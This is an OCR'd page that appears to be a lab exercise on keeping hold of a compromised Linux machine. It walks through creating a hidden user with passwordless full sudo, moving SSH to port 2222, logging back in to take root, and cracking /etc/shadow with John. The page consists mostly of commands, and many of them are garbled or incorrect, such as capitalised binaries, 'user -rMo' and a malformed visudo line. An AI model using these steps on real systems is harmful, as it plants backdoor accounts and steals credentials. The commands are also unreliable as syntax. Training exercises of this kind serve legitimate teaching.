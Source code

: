 
# **Advanced Bash: Owning the System**

_____


## *Step 1: Shadow People*

### 1.**Create a secret user named sysd. Make sure this user doesn't have a home folder created**.

    user -rMo -u 600 sysd


### 2.**Give your secret user a password**. 

    Passwd sysd


### 3.**Give your secret user a system UID < 1000**.

    Usermod -u 600 sysd


### 4.**Give your secret user the same GID**.

    Groupmod -g 600 sysd


### 5.**Give your secret user full sudo access without the need for a password**.

    Visudo sys ALL=(ALL:ALL) NOPASSWD:ALL


### 6.**Test that sudo access works without your password**.

    Cat /etc/sudoers | grep -i sysd | awk ‘{ print $3 }’



## *Step 2: Smooth Sailing*

### 1.**Edit the sshd_config file**.

    Sudo nano /etc/ssh/sshd_config



## *Step 3: Testing Your Configuration Update* 

### 1.**Restart the SSH service**.

    Systemctl restart ssh.service 


### 2.**Exit the root account**.

    exit


### 3.**SSH to the target machine using your sysd account and port 2222**.

    Ssh sysd@192.168.6.105 -p 2222


### 4.**Use sudo to switch to the root user**.

    Sudo -s



## *Step 4: Crack All the Passwords*

### 1.**SSH back to the system using your sysd account and port 2222**.

    Ssh sysd@192.168.6.105 -p 2222


### 2.**Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file**.

    John password.txt